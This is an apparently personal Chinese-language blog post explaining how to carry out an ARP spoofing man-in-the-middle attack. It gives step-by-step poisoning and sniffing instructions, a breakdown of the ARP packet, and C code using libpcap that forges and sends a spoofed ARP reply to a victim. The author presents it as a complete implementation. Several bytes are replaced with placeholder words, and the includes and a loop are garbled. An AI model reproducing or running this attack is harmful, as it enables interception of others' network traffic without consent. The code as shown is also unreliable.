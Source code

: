 ```yaml
---
layout: post
title: arp欺骗中间人攻击的实现、arp包解析
categories:
- program
tags: []
published: true
comments: true
---
```

<p>首先先是了解下什么arp欺骗 可以参加这篇文章http://www.ahstu.edu.cn/wlzx/HTML/20090923173022.shtml<br />
看完这篇文章我们就可以实施攻击<br />
1.首先登陆自己的路由器 先对自己准备攻击的机器获得mac地址的信息（在真正攻击时需要用嗅探广发同个子网下的arp广播来获得mac地址）<br />
2.对被攻击的mac地址绑定静态ip（这步在真正攻击时并不需要、我只是为了方便）<br />
3.在路由器中进行绑定把被攻击者的ip的绑定到攻击者的mac地址（在真正攻击时对路由器发送欺骗的ARP欺骗响应在之后会说到）<br />
4.对被攻击者发送arp欺骗应答使之网关的mac地址映射到攻击者的机器上或者简单的 arp -s attack's mac gateway就可以了<br />
------------------ARP表的设置基本完成----------------------------------------------------------------------------<br />
接下去需要打开自己网卡的路由功能（这个可以简单的打开共享网络来做到)<br />
然后开个wireshark什么就安安静静的看着来回所有的数据全给抓到就可以了:P<br />
------------------上面只是理想情况是你知道路由器密码别的情况你该怎么办？被攻击的人能老老实实给你用他电脑么?------------<br />
接下去我们要分析下arp数据包<a href="http://snorlax-wordpress.stor.sinaapp.com/uploads/2013/03/54A4717D-5EB0-4B9A-9D84-10A71FC0A72C.jpg"><img src="http://snorlax-wordpress.stor.sinaapp.com/uploads/2013/03/54A4717D-5EB0-4B9A-9D84-10A71FC0A72C.jpg" alt="" title="54A4717D-5EB0-4B9A-9D84-10A71FC0A72C" width="680" height="232" class="alignnone size-full wp-image-299" /></a>
然后我从真实抓下来的arp进行分析<br />
首先arp广播包是 42个字节<br />
arp响应包是60个字节(后面18个我实在没搞明白是什么……反正我乱填也是成功就是的了<br />
然后我贴代码对这42个字节进行具体分析<br />
因为socket的封装都在ip之上的……unp上查到的sock_packet我在mac上死活也没找到= =<br />
不过我发现给在数据连路层上的更好的一组东西:)<br />
神器不解释啊= =<br />
详见<br />
http://dog.tele.jp/winpcapeng/html/group__wpcap__fn.html</p>

<p>
```

#include 
#include 

#include 

int main(int argc, char **argv) {
    pcap_t *fp;
    char error[PCAP_ERRBUF_SIZE];
    u_char packet[60];
    int i;
    
    /* Check the validity of the command line */
    if (argc != 2)
    {
        printf("usage: %s inerface", argv[0]);
        return -1;
    }
    
    /* Open the output adapter */
    if((fp = pcap_open_live("en0", 100, 1, 1000, error) ) == NULL)
    {
        fprintf(stderr,"\nError opening adapter: %s\n", error);
        return -1;
    }
    
    /* Supposing to be on ethernet, set mac destination to 1:1:1:1:1:1 */
    /*被攻击者的mac*/
    packet[0]=xx;
    packet[1]=32;
    packet[2]=102;
    packet[3]=8;
    packet[4]=jiubu;
    packet[5]=gaosuni;
    
    /* set mac source to 2:2:2:2:2:2 */
    /*攻击者的mac*/
    packet[6]=jiu;
    packet[7]=bu;
    packet[8]=gaosu;
    packet[9]=234;
    packet[10]=xx;
    packet[11]=100;
    /*arp*/
    packet[12]=8;
    packet[13]=6;
    /*arp首部*/
    packet[14]=0;
    packet[15]=1;
    
    packet[16]=8;
    packet[17]=0;
    
    packet[18]=6;
    packet[19]=4;
    packet[20]=0;
    packet[21]=2;
    /*被骗的那个人的arp表上的假mac*/
    packet[22]=jiu;
    packet[23]=154;
    packet[24]=32;
    packet[25]=bu;
    packet[26]=253;
    packet[27]=gao;
    /*被骗者的网关*/
    packet[28]=192;
    packet[29]=168;
    packet[30]=1;
    packet[31]=1;
    /*被攻击者的mac*/
    packet[32]=xx;
    packet[33]=32;
    packet[34]=102;
    packet[35]=xx;
    packet[36]=xx;
    packet[37]=184;
    /*被攻击者的ip*/
    packet[38]=192;
    packet[39]=168;
    packet[40]=1;
    packet[41]=114;
    
    /* Fill the rest of the packet */
    /*乱填就好了*/
    for(i=42;i
        packet[i]=i%256;
    }
    
    /* Send down the packet */
    pcap_sendpacket(fp,
                    packet,
                    60);
    
    return 0;
}


以上arp欺骗的完整实现、不要用来干坏事= =
>

```
